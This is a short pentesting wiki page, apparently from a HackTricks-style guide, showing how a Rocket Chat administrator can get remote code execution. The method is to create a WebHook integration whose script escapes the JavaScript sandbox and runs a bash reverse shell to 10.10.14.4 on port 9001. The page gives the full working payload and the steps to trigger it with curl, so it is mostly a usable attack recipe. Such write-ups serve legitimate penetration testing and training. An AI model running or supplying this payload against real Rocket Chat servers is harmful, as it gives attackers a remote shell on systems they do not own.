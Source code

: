 # Rocket Chat


<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## RCE

If you are admin inside Rocket Chat you can get RCE.

* Got to **`Integrations`** and select **`New Integration`** and choose any: **`Incoming WebHook`** or **`Outgoing WebHook`**.
  * `/admin/integrations/incoming`

<figure><img src="../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

* According to the [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations), both use ES2015 / ECMAScript 6 ([basically JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) to process the data. So lets get a [rev shell for javascript](../../generic-methodologies-and-resources/shells/linux.md#nodejs) like:

```javascript
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```

* Configure the WebHook (the channel and post as username must exists):

<figure><img src="../../.gitbook/assets/image (905).png" alt=""><figcaption></figcaption></figure>

* Configure WebHook script:

<figure><img src="../../.gitbook/assets/image (572).png" alt=""><figcaption></figcaption></figure>

* Save changes
* Get the generated WebHook URL:

<figure><img src="../../.gitbook/assets/image (937).png" alt=""><figcaption></figcaption></figure>

* Call it with curl and you shuold receive the rev shell

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

